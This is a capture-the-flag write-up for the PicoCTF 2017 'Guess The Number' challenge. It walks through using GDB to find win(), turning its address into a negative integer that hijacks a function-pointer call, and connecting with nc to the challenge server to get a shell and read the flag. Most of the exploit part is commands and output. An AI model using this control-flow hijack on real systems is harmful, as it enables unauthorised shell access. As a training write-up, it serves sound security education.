# PicoCTF_2017: Guess The Number

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Just a simple number-guessing game. How hard could it be? [Binary](guess_num) [Source](guess_num.c). Connect on shell2017.picoctf.com:57641.

**Hint:**

>What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...

## Write-up
This challenge tests your knowledge on two's complement, bit-shifting and GDB magick. First, let's look at the source code. We really want to `win()`.

    void win(void) {
        printf("Congratulations! Have a shell:\n");
        system("/bin/sh -i");
    }

GDB time!

    $ gdb guess_num
    GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from guess_num...(no debugging symbols found)...done.
    (gdb) info address win
    Symbol "win" is at 0x804852b in a file compiled without debugging.

Converting `0x804852b` to hexadecimal gives us `134513963` or `1000000001001000010100101011`. We need to be able to call upon `((void (*)(void))val)();` to `win()` it, so now we have to figure out how to make `val` point to `win()`.

    val = strtol(buf, NULL, 10);
    printf("You entered %d. Let's see if it was right...\n", val);
    val >>= 4;

We see that `val` gets checked for overflow, and then bit shifted right 4 places. So let's do the same for our pointer, by shifting left 4 places.

    1000000001001000010100101011
    10000000010010000101001010110000 <- add 4 0s

However, now the binary is too large to enter into the system! But wait! We have two's complement and negative numbers to help us!

    10000000010010000101001010110000
    -2142743888

    $ nc shell2017.picoctf.com 57641
    Welcome to the number guessing game!
    I'm thinking of a number. Can you guess it?
    Guess right and you get a shell!
    Enter your number: -2142743888
    You entered -2142743888. Let's see if it was right...
    Congratulations! Have a shell:
    /bin/sh: 0: can't access tty; job control turned off
    $ ls
    flag.txt
    guess_num
    xinetd_wrapper.sh
    $ cat flag.txt
    c2bda0bde530c16fff8a8530addb44f8

Therefore, the flag is `c2bda0bde530c16fff8a8530addb44f8`.
